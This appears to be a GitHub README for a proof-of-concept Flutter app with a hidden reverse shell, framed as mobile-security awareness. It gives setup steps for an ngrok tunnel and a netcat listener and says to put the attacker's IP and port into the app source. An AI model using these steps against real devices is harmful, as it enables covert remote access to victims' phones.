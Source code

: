 # Image and Video



# POC Reverse Shell With Flutter Application

I’m sharing a proof of concept demonstrating how a reverse shell can be implemented within a Flutter application. This is a reminder to always download apps only from trusted sources. Malicious APKs can easily disguise themselves as legitimate apps, like "kad kahwin.apk."

I built this example app entirely in Flutter to show how vulnerabilities can appear even in custom applications, highlighting the need for caution when installing software.

This post is for educational purposes only, aimed at raising awareness about mobile app security. Please remember: avoid downloading apps from unverified sources! 🔒

Attention all resources shared here should only be used with proper permission. Do not use them for any harmful or illegal activities. Stay responsible. Great Power Comes Great Responsibility.

# Installation 
setup ngrok
- ./ngrok authtoken <your_auth_token>
- ./ngrok tcp 443 
- dig 2.tcp.ngrok.io (check ip address ngrok)
*take note of ngrok port and ip address:

setup listener
- nc -lvnp 443

clone repo
- git clone https://github.com/NormanSamsudin/poc-flutter-reverse-shell.git
 
configure reverse shell
- change ip address and port of "ngrok" on file main.dart





